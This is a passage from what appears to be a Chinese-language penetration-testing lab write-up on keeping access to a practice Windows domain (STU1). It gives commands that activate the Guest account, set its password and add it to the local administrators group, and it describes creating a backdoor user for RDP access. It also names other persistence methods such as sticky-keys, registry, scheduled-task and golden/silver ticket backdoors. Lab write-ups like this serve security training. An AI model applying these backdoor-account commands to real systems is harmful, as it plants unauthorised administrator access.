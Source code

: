 

## 权限维持

### Guest后门

> 注：应加上域标签，如果完全复制此种方式，只是添加到STU1域

```bash
shell net user									 # 查看本机用户
```

![image-20220814232334204](./st1.assets/image-20220814232334204.png)

```bash
net user guest /active:yes						 # 激活guest
```

```bash
shell net user guest Aa123456					 # 给Guest用户设置密码
```

```bash
shell net localgroup administrators guest /add    # 将guest加入到管理员中
```

### 添加新用户后门

> 注：应加上域标签，如果按照上面Guest后门的方式，只是添加到STU1域里

![image-20220815002522071](./st1.assets/image-20220815002522071.png)

![image-20220815002532623](./st1.assets/image-20220815002532623.png)

然后用RD Client连接即可

### 尴尬之处

两边登录都会互踢

> 还可以采用其它权限维持的方法，比如shift后门、注册表后门、计划后门、白银黄金票据等
